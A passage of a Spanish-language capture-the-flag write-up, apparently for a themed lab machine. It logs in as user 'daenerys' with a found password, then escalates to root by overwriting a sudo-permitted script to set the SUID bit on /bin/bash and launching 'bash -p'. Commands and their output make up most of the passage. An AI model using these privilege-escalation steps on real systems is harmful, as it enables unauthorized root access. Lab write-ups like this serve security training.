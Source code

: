 Probamos a autenticarnos como el usuario `daenerys` utilizando la contraseña `drakaris`.

```bash
su daenerys
```
 
Introducimos la contraseña y pivotamos con éxito a dicho usuario.

Una vez como `daenerys`, comprobamos permisos `sudo` y `SUID`.

```bash 
sudo -l
```

Info:
```
Matching Defaults entries for daenerys on 77d3c9827bf1:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daenerys may run the following commands on 77d3c9827bf1:
    (ALL) NOPASSWD: /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

Comprobamos que podemos ejecutar el archivo `.shell.sh` con privilegios de `root`. Para explotarlo, modificamos el contenido del `script` y lo ejecutamos.

```bash
printf '#!/bin/bash\nchmod u+s /bin/bash\n' > /home/daenerys/.secret/.shell.sh
```

```bash
sudo -u root /usr/bin/bash /home/daenerys/.secret/.shell.sh
```

Con ello, asignamos permisos `SUID` al binario `/bin/bash`, lo que nos permite escalar a `root` fácilmente con el siguiente comando:

```bash
/bin/bash -p
```
Info:
```
bash-5.2# whoami
root
bash-5.2#
```

Ya somos root!
